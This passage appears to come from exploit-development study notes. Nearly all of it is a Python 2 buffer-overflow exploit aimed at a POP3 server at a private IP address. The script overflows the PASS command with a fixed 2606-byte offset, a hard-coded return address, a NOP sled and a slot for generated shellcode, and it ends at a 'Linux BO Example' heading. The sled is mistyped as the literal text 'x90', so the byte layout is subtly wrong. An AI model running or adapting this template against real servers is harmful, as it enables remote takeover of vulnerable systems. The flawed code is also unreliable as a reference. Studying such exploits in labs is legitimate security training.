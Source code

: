Copy and put it into exploit

```python
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

shellcode = ("GENERATED SHELL CODE")

buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "x90" * 16 + shellcode + "C" * (3500-2606-4-351-16) # 351 bytes are the size of the payload
# Need to add some NOPs

try:
  print "\nSending evil buffer..."
  s.connect(('192.168.30.35',110))
  data = s.recv(1024)
  s.send('USER username' + '\r\n')
  data = s.recv(1024)
  s.send('PASS ' + buffer + '\r\n')
  print "\nDone!."
except:
  print "Could not connect to POP3!"
```

## Linux BO Example
